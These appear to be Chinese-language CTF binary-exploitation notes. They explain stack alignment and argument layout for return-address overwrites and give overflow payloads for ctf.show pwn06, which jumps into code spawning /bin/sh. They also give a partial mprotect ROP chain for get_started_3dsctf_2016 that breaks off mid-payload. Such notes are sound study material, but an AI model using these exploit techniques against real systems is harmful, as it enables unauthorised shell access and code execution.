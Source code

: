 shellcode 填写函数时，需要加返回地址:

    0x88*'a'+p32(0xdeadbeef) + 函数地址 + 函数返回地址 + 参数1 + 参数2 + 参数3 ...

Ubuntu18 运行机制与前面版本的不同，在调用 system 的时候需要进行栈对齐(如多加个 retn)

[栈未对齐引发 Crash](http://blog.eonew.cn/archives/958)

[栈未对齐引发 Crash1](https://www.cnblogs.com/Rookle/p/12871878.html)

**基本输入输出 FD**

fd 的类型为 int，值为 0、1、2,分别代表标准输入、标准输出、标准错误输出。

[LINUX SYSTEM CALL TABLE FOR X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

### 栈对齐

<span id="stack_align"></span>
见 ctf.show - pwn06

payload = b"a" \* 0x14 + p64(0x40057B)

```
.text:0000000000400577                 public getFlag
.text:0000000000400577 getFlag         proc near
.text:0000000000400577 ; __unwind {
.text:0000000000400577                 push    rbp
.text:0000000000400578                 mov     rbp, rsp
.text:000000000040057B                 lea     rdi, command    ; "/bin/sh"     --- 从这里执行少push一步， 免用retn
.text:0000000000400582                 mov     eax, 0
.text:0000000000400587                 call    _system
.text:000000000040058C                 nop
.text:000000000040058D                 pop     rbp
.text:000000000040058E                 retn
.text:000000000040058E ; } // starts at 400577
.text:000000000040058E getFlag         endp
```

或者
payload = b"a" \* 0x14 + p64(0x40058E) + p64(0x400577)

### 栈对齐 2 + mprotect -- get_started_3dsctf_2016

手动压栈调用--栈不平衡问题。 [get_started_3dsctf_2016](https://www.cnblogs.com/lyxf/p/12113401.html)
mprotect 调 3 个函数，没有进行压栈，需要 pop3 个出来。

`int mprotect(const void *start, size_t len, int prot);`

```python
mem_addr = 0x80EB000 #可读可写的内存,但不可执行
mem_size = 0x1000    #通过调试出来的值
mem_proc = 0x7       #可代表可读可写可执行

mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']

'''
为了连续在堆栈中执行,就是用pop3_ret来控制esp,使它往下弹掉已用的3个值.

'''
payload_01 = 'A' * 0x38
payload_01 += p32(mprotect_addr)
payload_01 += p32(pop3_ret) #执行完mprotect的返回地址,使esp往下+12

#mprotect 的三个参数
payload_01 += p32(mem_addr)   #mprotect函数参数1 修改的内存地址
payload_01 += p32(mem_size)   #mprotect函数参数2 修改的内存大小
```